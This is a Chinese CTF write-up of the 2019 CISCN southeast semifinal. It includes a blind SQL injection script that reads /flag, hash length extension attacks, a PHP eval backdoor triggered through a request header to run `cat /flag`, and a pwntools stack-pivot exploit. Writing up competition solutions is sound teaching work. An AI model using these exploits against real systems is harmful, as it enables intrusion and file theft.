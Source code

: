 ```yaml
---
sidebar: auto
---
```

# 2019 CISCN 华东南赛区半决赛
靠着web的解题和pwn的fix（大师傅nb）冲进了决赛。仔细想了想其实也没做出来几道题，唉，决赛加油了。

## web1

有两个输入框，username 存在 sql 注入，过滤了大量关键词(空格/sub/strcmp/mid/left/righ/regexp...)，尝试使用`username=admin'/**/or/**/1=1#`，可以成功登录，被告知要读取文件`\flag`

遂想到用 load_file 读取本地文件，但是由于过滤了大量的字符串处理函数，所以尝试了很久，最后使用`LIKE`进行盲注爆破出 flag

```python
import requests as req
import string

t = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!{}"
#这里注意，字符集的“_”要转移一下，在like里下划线代表任意字符（一开始爆破出来一堆带下划线的

old = ""

for j in range(26):
    for i in t:
        data = {"username":"flag'/**/or/**/load_file('/flag')/**/LIKE/**/'"+old+i+"%'#","password":"1","submit":"login"}
        r = req.post("http://172.29.11.109/index.php",data)
        print(old+i)
        if("username or password error" not in r.text):
            print(i,end="")
            old = old + i

```
得到 flag`ciscn{ykF5HvTJ3cKTneQZ39}`

## web3

发现 robots.txt，有好多目录，只有一个目录`ndsufbewhjubvse`有用，在里面发现了另一个登录页面，瞎登录半天无果，又扫了一次目录，又发现了新东西`License.txt`,里面是源码，审计代码之后发现是哈希长度扩展攻击

```php
$flag = "flag{xxxxxx_just_a_sample_xxxxxxx}";
$bisskey = "xxxxxxxxx_just_a_sample_xxxxxxx"; // To remember Easily, 10 chars allowed.

$username = $_POST["username"];
$password = $_POST["password"];
header("hash_key:" . $hash_key);


if (!empty($_COOKIE["MyIdentity"])) {
    if (urldecode($username) === "admin123" && urldecode($password) != "admin123") {
        if ($_COOKIE["MyIdentity"] === md5($bisskey . urldecode($username .$password))) {
            echo "Great! You win!\n";
            echo ("<!-- Y0ur f!4g 1s here ". $flag . "-->");
        }
        else {
            die ("I don't konw what you say!");
        }
    }
    else {
        die ("I don't konw what you say!");
    }
}

setcookie("hash_key", md5($bisskey . urldecode("admin123" . "admin123")), time() + (60 * 60 * 24 * 7));

```

已知密钥长度是 10

`md5($bisskey + "admin123" + "admin123") == "e7187cb49ce6d5958d279284af968254"`

直接上 hashpump 构造 payload

![hashpump](./img/2019-ciscn-mid-1.png)

## web6

首先进去是个登录界面，但是 f12 看到这个 form 提交的是假的，而且页面上也写着 is a joke，所以猜测不是本页面相关的东西。

于是试试扫描目录，发现有.git 目录，然后使用 GitHack 工具将.git 的源码文件恢复，发现有 getflag.php 和 index.html。其中 getflag.php 是一个验证参数 `$_POST["user"]` 和 `cookie(verify)` 的过程。其中它默认给出了一个加 guest 的 key 的 hash，然后猜测应该是哈希长度扩展攻击。使用工具 `hashpump` 构造填充的。

![hashpump](./img/2019-ciscn-mid-2.png)

构造一个加 root 的，给 user，同时长度扩展攻击生成的 md5 放给 verify，即可通过检查 `encrypt($user)===$_COOKIE['verify']` 和 `is_numeric(strpos($user,'root'))` ，然后即可拿到 flag。

## web12

1. 首先访问，经过各类 sql 注入，xss 登等攻击均无效，于是开始扫目录。扫出来有 phpmyadmin。phpmyadmin 的 index.php 有备份文件 `index.php.bak`。经过下载，发现最后一行有一个提示的后门 `mDjNaF.php`，然后访问，发现真的是一个后门。


```php
<?php
if(';' === preg_replace('/[^\W]+\((?R)?\)/', '', $_GET['code'])) {
    eval($_GET['code']);
} else {
    show_source(__FILE__);
}
```

2. 经过后门发现，这个正则的规则是将 code 参数的大小写、数字和一次的括号匹配替换成空字符串，如果只剩 `;` 则成功后门。也就是说，利用代码不能有参数调用的函数，于是就使用一系列纯英文且能从可控位置读入的地方进行利用后门。

3. 首先就是 getallheaders()可以获取所有 headers，end()可以返回数组的最后一项的键值，system 可以直接执行 shell 指令，组合起来利用就是 `?code=system(end(getallheaders()));` 。然后构造一个任意头部，比如 `frbukg: cat /flag` 即可。

## babypwn

没有 malloc 所以不可能是堆，NX 有，PIE 和 cannary 没。粗略一看漏洞点在 read 有点 0x28 空间却读入 0x30 字节。两轮 read 分别用于泄漏栈地址和攻击。泄露部分能通过 savedBP 即 main 函数的 bp 来泄漏栈地址。攻击部分，有一个假后门可以显示 flag 字样……没啥用。溢出长度正好只够到保存的 bp 和 ip，所以普通的 rop 比较难搞，通过 leave retn -> leave retn 将栈(esp)挪到栈上输入字符串的部分，然后在这里构建返回到 system 和 system 的参数。

```python
from pwn import *
p = process("./pwn")
p.send("a"*0x28)
time.sleep(1)
s = p.recv()#泄漏栈
t = s[85:89]
k = 0
for i in t[::-1]:
    k = 256*k+ord(i)
print hex(k)
p1 = p32(0x08048559)+p32(k-0x38+16+8) #system地址和参数指针
p.send("aaabbbcccd\x00"+"\x00"*(5)+p1+"cat ./flag"+"\x00"*6+p32(k-0x2C)+p32(0x80485FD)) #padding system+system的参数+p1位置+leave retn
# print p.recv()
p.interactive()
```
